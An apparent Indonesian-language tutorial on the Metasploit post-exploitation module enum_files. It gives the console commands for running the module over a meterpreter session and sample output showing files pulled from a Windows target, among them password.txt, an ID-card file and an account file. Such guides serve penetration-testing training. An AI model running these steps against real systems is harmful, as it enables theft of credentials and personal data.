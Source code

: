 # enum_files

Modul `enum_files` di Metasploit adalah modul `post-exploitation `untuk sistem Windows yang digunakan untuk mencari dan mengumpulkan daftar file berdasarkan ekstensi tertentu seperti `.pdf`, `.docx`, `.txt`, dan `lainnya` dari komputer target. Modul ini bekerja setelah akses ke sistem berhasil diperoleh (misalnya via meterpreter) dan memindai direktori yang ditentukan secara rekursif untuk menemukan file-file penting yang berpotensi sensitif, sehingga berguna dalam proses pengumpulan informasi lebih lanjut setelah eksploitasi berhasil dilakukan.

## Cara Penggunaan di Metasploit

```
use post/windows/gather/enum_files
set FILE_GLOBS *.txt
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Searching C:\Users\ through windows user profile structure
[*] Downloading C:\Users\admin\Downloads\windows_7_8_81_32_64bit_1027.3\windows_7_8_81_32_64bit_1027.3\Release notes\ISS_Release.txt
[+] ISS_Release.txt saved as: /root/.msf4/loot/20250516123106_default_192.168.1.52_host.files_316311.txt
[*] Downloading C:\Users\admin\Downloads\windows_7_8_81_32_64bit_1027.3\windows_7_8_81_32_64bit_1027.3\Release notes\Release_RTWlanU.txt
[+] Release_RTWlanU.txt saved as: /root/.msf4/loot/20250516123106_default_192.168.1.52_host.files_362125.txt
[*] Downloading C:\Users\admin\Downloads\windows_7_8_81_32_64bit_1027.3\windows_7_8_81_32_64bit_1027.3\Release notes\Utility_Release.txt
[+] Utility_Release.txt saved as: /root/.msf4/loot/20250516123107_default_192.168.1.52_host.files_713887.txt
[*] Downloading C:\Users\admin\Downloads\windows_7_8_81_32_64bit_1027.3(1)\windows_7_8_81_32_64bit_1027.3\Release notes\ISS_Release.txt
[+] ISS_Release.txt saved as: /root/.msf4/loot/20250516123107_default_192.168.1.52_host.files_313018.txt
[*] Downloading C:\Users\admin\Downloads\windows_7_8_81_32_64bit_1027.3(1)\windows_7_8_81_32_64bit_1027.3\Release notes\Release_RTWlanU.txt
[+] Release_RTWlanU.txt saved as: /root/.msf4/loot/20250516123107_default_192.168.1.52_host.files_663615.txt
[*] Downloading C:\Users\admin\Downloads\windows_7_8_81_32_64bit_1027.3(1)\windows_7_8_81_32_64bit_1027.3\Release notes\Utility_Release.txt
[+] Utility_Release.txt saved as: /root/.msf4/loot/20250516123108_default_192.168.1.52_host.files_218646.txt
[*] Downloading C:\Users\admin\Desktop\password.txt
[+] password.txt saved as: /root/.msf4/loot/20250516123108_default_192.168.1.52_host.files_562665.txt
[*] Downloading C:\Users\admin\Desktop\KTP SAYA.txt
[+] KTP SAYA.txt saved as: /root/.msf4/loot/20250516123108_default_192.168.1.52_host.files_967686.txt
[*] Downloading C:\Users\admin\Desktop\AKUN PB.txt
[+] AKUN PB.txt saved as: /root/.msf4/loot/20250516123109_default_192.168.1.52_host.files_165012.txt
[*] Done!
[*] Post module execution completed
```
